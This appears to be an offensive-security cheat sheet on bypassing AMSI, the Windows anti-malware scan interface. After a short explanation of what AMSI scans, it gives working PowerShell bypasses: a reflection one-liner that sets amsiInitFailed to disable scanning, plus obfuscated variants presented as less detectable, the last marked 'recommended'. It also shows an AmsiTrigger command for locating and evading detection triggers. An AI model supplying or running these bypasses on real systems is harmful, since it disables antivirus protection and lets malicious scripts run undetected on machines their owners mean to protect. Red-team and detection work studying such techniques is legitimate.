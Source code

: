 #### AMSI (Anti Malware Scan Interface)
AMSI is a Powershell feature that scans payloads before execution during runtime.
It's fully integrated with:
-  Powershell
-  VBScript
-  Windows script hosts (wscript, cscript)
-  Office VBA macros
If you are getting errors saying  
```
This script contains malicious content and has been blocked by your antivirus software.
		+ CategoryInfo          : ParserError: (:) []. ParentContainsErrorRecordException
		+ FullyQualifiedErrorId : ScriptContainedMaliciousContent
```
It's AMSI.

### Automated exploitation
For commands, visit [amsi.fail](http://amsi.fail)
Or use AmsiTrigger:
```
AmsiTrigger_x64.exe -i "bypass.ps1" -f 3      // Finds and bypasses the AMSI triggers
```


One-liner to bypass AMSI using Powershell reflection (can get detected):
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

// Explanation
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')   // Gets the AMSI-utilities in Powershell
.GetField('amsiInitFailed','NonPublic,Static')                     // Get a specific field from the AMSI-utils section
.SetValue($null,$true)                                             // Sets "amsiInitFailed" to True, so it will stop being checked
```

Less detectable:
```powershell
$a='si';$b='Am';$Ref=[Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils'-f $b,$a)); $z=$Ref.GetField(('am{0}InitFailed'-f$a),'NonPublic,Static');$z.SetValue($null,$true)
```

Even less detectable (recommended):

```powershell
Try{#Ams1 bypass technic nº 2
      $Xdatabase = 'Utils';$Homedrive = 'si'
      $ComponentDeviceId = "N`onP" + "ubl`ic" -join ''
      $DiskMgr = 'Syst+@.MÂ£nÂ£g' + 'e@+nt.Auto@' + 'Â£tion.A' -join ''
      $fdx = '@ms' + 'Â£InÂ£' + 'tF@Â£' + 'l+d' -Join '';Start-Sleep -Milliseconds 300
      $CleanUp = $DiskMgr.Replace('@','m').Replace('Â£','a').Replace('+','e')
      $Rawdata = $fdx.Replace('@','a').Replace('Â£','i').Replace('+','e')
      $SDcleanup = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $CleanUp,$Homedrive,$Xdatabase))
      $Spotfix = $SDcleanup.GetField($Rawdata,"$ComponentDeviceId,Static")
      $Spotfix.SetValue($null,$true)
   }Catch{Throw $_}
```

